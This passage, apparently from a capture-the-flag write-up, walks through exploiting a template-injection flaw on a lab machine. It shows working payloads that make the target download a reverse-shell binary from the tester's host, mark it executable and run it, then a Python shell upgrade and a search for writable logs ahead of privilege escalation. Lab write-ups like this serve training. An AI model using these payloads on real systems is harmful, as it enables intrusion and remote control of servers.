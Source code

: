 -   On the target I use wget to copy the file:
    ```shell
    *{"".getClass().forName("java.lang.Runtime").getRuntime().exec("wget http://10.10.14.89:9000/rev.elf")}
    ```

    -   {{< figure src="/ox-hugo/2025-01-03-180127_.png" >}}
    -   It transfers succesfully.


#### Making The Malicious Binary Executable: {#making-the-malicious-binary-executable}

```shell
*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("chmod 777 ./rev.elf")}
```

-   There is no feedback from this, I am running this blind.


#### Executing The Malicious `.elf` &amp; Getting A Shell: {#executing-the-malicious-dot-elf-and-getting-a-shell}

```shell
*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("./rev.elf")}
```

-   {{< figure src="/ox-hugo/2025-01-03-180247_.png" >}}
-   Shell caught
-   I can see I am running as a user called `woodenk`


#### Upgrading the shell: {#upgrading-the-shell}

-   As the shell appears to be low level I upgrade it using the tried and trusted python method.
    -   I check if python is installed:
        -   `which python3`
        -   {{< figure src="/ox-hugo/2025-01-03-180613_.png" >}}
    -   I upgrade:
        -   `python3 -c 'import pty; pty.spawn("/bin/bash")'`
        -   This effectively launches python 3, imports the pty module and then spawns a new `/bin/bash` shell giving me an interactive shell.


## 3. Enumerating As woodenk: {#3-dot-enumerating-as-woodenk}

-   First things first I will get the user flag.
    -   {{< figure src="/ox-hugo/2025-01-03-180851_.png" >}}


### Enumerating As woodenk: {#enumerating-as-woodenk}

-   I check what groups the user is part of &amp; can see they have permissions to view logs:
    -   {{< figure src="/ox-hugo/2025-01-03-181009_.png" >}}

-   I check if the user can write to any log files. I do this because if the user can write to a log file I may be able to use the logrotten exploit to escalate privileges.
    ```shell
    find / -type f -name "*.log" -writable 2>/dev/null
    ```
